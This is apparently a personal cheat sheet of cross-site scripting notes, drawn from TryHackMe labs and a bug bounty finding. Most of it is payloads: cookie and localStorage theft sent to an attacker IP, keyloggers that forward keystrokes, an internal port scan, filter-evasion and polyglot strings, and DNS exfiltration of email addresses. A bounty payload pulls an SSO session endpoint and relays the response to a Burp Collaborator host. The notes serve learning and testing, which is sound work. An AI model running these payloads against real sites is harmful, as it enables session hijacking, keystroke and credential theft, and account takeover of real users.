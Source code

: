 # XSS
User input is not HTML entity encoded and this may lead to cross site scripting (XSS). In a web application where a user’s input is reflected i always try to test for either PHP code injection or cross site scripting and I’ve been lucky in more times that one.

Looking at the source code of the web application we notice that our message is wrapped between textarea tags

Sometimes, cookies can be injected directly, with something like base64 encoding the payload 

`<script src='http://10.17.17.11/p.js'></script>` and instead of document.cookie, try `+JSON.stringify(localStorage)` as well.

For defacing website, using tags such title etc.,

`<script>document.querySelector('title').textContent = 'Resolve XSS plz'</script>`

for stealing session ids:

`<script>window.location='http://10.17.17.11/?cookie='+document.cookie</script>`

for machine ip(reflected):

`<script>alert(window.location.hostname)</script>`

DOM XSS:

`test" onmouseover="alert('Hover over the image and inspect the image element')"`

XSS PORT SCAN:

```text-plain
<script>
 for (let i = 0; i < 256; i++) { 
  let ip = '192.168.0.' + i 

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code 
 } 
</script>
```

XSS Keylogger:
--------------

```text-plain
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script>
```

**Session Stealing:**

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged as that user.

`<script>fetch('https://10.17.17.11/steal?cookie=' + btoa(document.cookie));</script>`

**Key Logger:**

The below code acts as a key logger. This means anything you type on the webpage will be forwarded to a website under the hacker's control. This could be very damaging if the website the payload was installed on accepted user logins or credit card details.

`<script>document.onkeypress = function(e) { fetch('https://10.17.17.11/log?key=' + btoa(e.key) );}</script>`

The application doesn't check the contents of the **error** parameter, which allows the attacker to insert malicious code.

![](XSS/image.png)

**How to test for Reflected XSS:**  
 

You'll need to test every possible point of entry; these include:

*   Parameters in the URL Query String
*   URL File Path
*   Sometimes HTTP Headers (although unlikely exploitable in practice)

for reflected xss, we used a web server(ruby) on port 8080 and made request to it through js script with document.location

**How to test for Stored XSS:**

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

*   Comments on a blog
*   User profile information
*   Website Listings
*   an age field that is expecting an integer from a dropdown menu, but instead, you manually send the request rather than using the form allowing you to try malicious payloads. 

**Exploiting the DOM**

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.  
  
**Example Scenario:**  
  
The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

**How to test for Dom Based XSS:**  
DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**window.location.x**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as **eval()**.

**PAYLOADS**
------------

`<script>alert('THM');</script> when it's input is directly taken without any tags`

`"><script>alert('THM');</script> when input tag is used`

`</textarea><script>alert('THM');</script>` for textarea tag

`<img src="api/images/YdG5uwpup3lb/blah" ONERROR="alert('Hello')" />`

`<img src="api/images/YdG5uwpup3lb/blah" onerror=confirm("Hello") />`

`<sscriptcript>alert('THM');</sscriptcript>`

`<img src="api/images/YdG5uwpup3lb/blah" ONERROR="alert('HHelloello')" />`

If input is taken inside a <script> tag as shown in image, then use `';alert('THM');//`

![](XSS/1_image.png)

When a word gets removed from a string due to filter, there's a helpful trick that you can try.  
![](XSS/2_image.png)

You can see that the < and > characters get filtered out from our payload, preventing us from escaping the IMG tag. To get around the filter, we can take advantage of the additional attributes of the IMG tag, such as the onload event. The onload event executes the code of your choosing once the image specified in the src attribute has loaded onto the web page.

`/images/cat.jpg" onload="alert('THM');`

**Polyglots:**

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully. 

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e``

Immediately invoked function expression
---------------------------------------

An immediately invoked function expression is a programming language idiom which produces a lexical scope using function scoping.

After fuzzing for a while I bypassed the restriction using the iife function and the alert box popped up with the following payload:

> [`_https://www.redacted.com/preview/001981ba?blogPostId=test123";(alert)("xss")//_`](https://www.redacted.com/preview/001981ba?blogPostId=test123";(alert)("xss")//)
> 
> `_";fetch('https://www.redacted.com/api/uis/accounts/current/sso').then(a=> a.text()).then(a=> fetch('https://random.burpcollaborator.net?x='+a))//_`

**Explanation:** Here I am using the fetch() method of javascript in my payload that instructs the web browsers to send a request to a URL. The first fetch() sends a GET request to this api endpoint _https://www.redacted.com/api/uis/accounts/current/sso_ (leaking session id) which we can use to hijack the account. `**(a=> a.text())**` return the data into the `**a**` variable**.** After that second fetch() function is used to send another GET request to send the stolen data into the attacker control server. For that purpose I simply used Burp Collaborator.

working payload :

``jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=window.location="http://10.17.17.11/" + document.getElementById("title")//>\x3e``

`</textarea><script>var i = new Image(); i.src="//TEST.8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech/?c="+document.getElementById('email').innerHTML; </script>`

for viewing email with XSS:

```text-plain
</textarea><script>
var email = document.getElementById("email").innerText;
email = email.replace("@", "8")
email = email.replace(".", "0")
document.location = "http://"+ email +".8ba7c46d7ea59d575b71ef3126651b6a.log.tryhackme.tech"</script>
```

Sometimes, http requests are blocked so we can use dns to exfill our data as shown in the script above.

Filter Evasion
--------------

If tags `<>` are filtered, we can use `&lt` and `&gt` , these have to be suffixed by `;`, as script is filtered we take advantage and depend on it being filtered to render script again with `sscriptcript`, finally try strings and numbers, you never know what might be filtered.

`&lt;sscriptcript&gt;alert('1')&lt;/sscriptcript&gt;`

`&lt;sscriptcript&gt;window.location='http://10.17.17.11/cookie=' +document.cookie;&lt;/sscriptcript&gt;`